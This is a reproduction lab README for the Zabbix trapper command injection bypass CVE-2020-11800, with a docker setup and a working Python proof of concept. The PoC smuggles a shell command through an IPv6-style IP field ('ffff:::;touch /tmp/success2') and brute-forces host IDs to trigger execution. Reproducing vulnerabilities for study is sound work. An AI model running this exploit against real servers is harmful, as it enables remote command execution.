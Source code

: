 # Zabbix Server Active Proxy Trapper Command Injection Bypass (CVE-2020-11800)

[中文版本(Chinese version)](README.zh-cn.md)

Zabbix is a network monitoring and management system developed by Alexei Vladishev, based on a Server-Client architecture. In [CVE-2017-2824][1], there was a code execution vulnerability in the Server-side trapper command functionality. However, the patch for that vulnerability was incomplete, allowing attackers to bypass it using IPv6 to inject arbitrary commands.

Reference:

- https://xz.aliyun.com/t/8991

## Environment Setup

Execute the following command to start a complete Zabbix environment, including the Web interface, Server, 1 Agent, and MySQL database:

```
docker compose up -d
```

After executing the command, run `docker compose ps` to check if all containers have started successfully. If not, try running `docker compose up -d` again.

To exploit this vulnerability, you need to enable the auto-registration feature on the server side. For instructions on how to enable it, please refer to [CVE-2017-2824][1].

## Vulnerability Reproduction

Modify the IP field in the [CVE-2017-2824][1] POC to create a new POC:

```python
import sys
import socket
import json
import sys


def send(ip, data):
    conn = socket.create_connection((ip, 10051), 10)
    conn.send(json.dumps(data).encode())
    data = conn.recv(2048)
    conn.close()
    return data


target = sys.argv[1]
print(send(target, {"request":"active checks","host":"vulhub","ip":"ffff:::;touch /tmp/success2"}))
for i in range(10000, 10500):
    data = send(target, {"request":"command","scriptid":1,"hostid":str(i)})
    if data and b'failed' not in data:
        print('hostid: %d' % i)
        print(data)
```

As you can see, this POC is very similar to the [CVE-2017-2824][1] POC, but I use IPv6 `ffff:::;touch /tmp/success2` to bypass the patch.

When you see the following result, it indicates successful command execution:

![](1.png)

Enter the server container, and you can see that `/tmp/success2` has been successfully created:

![](2.png)

Interested users can improve this POC and submit a Pull Request.

[1]: ../CVE-2017-2824
